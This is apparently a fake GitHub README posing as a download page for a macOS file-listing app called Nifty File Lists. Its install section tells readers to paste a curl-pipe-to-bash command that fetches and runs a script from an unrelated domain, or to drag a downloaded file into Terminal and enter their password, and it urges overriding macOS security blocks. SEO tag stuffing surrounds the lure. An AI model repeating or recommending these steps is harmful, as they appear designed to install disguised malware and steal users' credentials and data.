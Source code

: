 <p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/f1/62/82/f162822d-ee48-afe2-3577-9e42677bcd52/AppIcon-0-0-85-220-0-5-0-2x.png/1200x600bf.png" width="350" alt="Nifty File Lists macOS Banner" />
</p>

<h1 align="center">Nifty File Lists for macOS</h1>

<p align="center">
  📂 Generate customizable file and folder listings instantly. Export clean, styled lists in TXT, CSV, HTML, or Markdown.  
  <br><br>
  ✅ Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/252" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NIFTY%20FILE%20LISTS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Nifty File Lists for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/qMS8g6FX/1633864159-1.jpg" alt="Nifty File Lists Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Nifty File Lists for macOS?

**Nifty File Lists** is a powerful yet simple macOS tool that helps you generate detailed file and folder listings from any directory. Whether you’re building documentation, archiving projects, or just need a structured list of files, this utility does it instantly.

Export options include plain text, CSV, Markdown, and HTML — fully customizable with column selection, sorting, and formatting presets.

---

## ✅ Why Choose Nifty File Lists?

- 📋 **Generate Lists of Files & Folders Instantly**  
- 🧾 **Export to TXT, CSV, HTML, or Markdown**  
- 🔍 **Includes Size, Date, Type, and More**  
- 🛠️ **Column Picker and Sort Options**  
- 🧠 **Perfect for Catalogs, Indexing, Documentation**  
- 🍎 **Optimized for Apple Silicon (M1/M2/M3)**  
- 🖥️ **Clean macOS-native Interface**  
- 💼 **No Background Processes or Syncing**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/tPY3hF02/1633864157-2.jpg" alt="CSV Export Preview" />
  <br><br>
  <img src="https://i.ibb.co/h5X0jK9/1633864155-3.jpg" alt="Column Selection Panel" />
</p>

---

## 🚀 Key Features

- File/folder list generation  
- Multiple export formats  
- Selectable columns (name, size, type, date)  
- Drag-and-drop directory support  
- Custom styles for Markdown/HTML  
- Works offline  
- Built specifically for macOS  
- Batch support for large directories

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Nifty File Lists manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-CSV+TXT+HTML+MD-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Nifty File Lists – Structured Output, Fast

Thanks for using **Nifty File Lists for macOS**.  
Create clean file listings with precision and speed.

---

## 🧭 Usage Context

Nifty File Lists runs locally and works offline.  
Ideal for archivists, technical writers, project managers, or anyone needing structured file inventories.  
Output remains private and exportable in multiple formats.

---

## 🔍 Tags

```text
nifty file lists mac download, export folder list csv mac, file lister app for macos, generate file directory markdown html, mac app to list files and subfolders, batch file list export tool for mac, apple silicon compatible file lister, list files with size date type macos, download nifty file lists for ventura sonoma, file structure export macbook m1 m2, folder report generator mac utility, create html file index mac os, folder content documentation mac, best file list maker for mac developers, csv folder tree exporter for mac
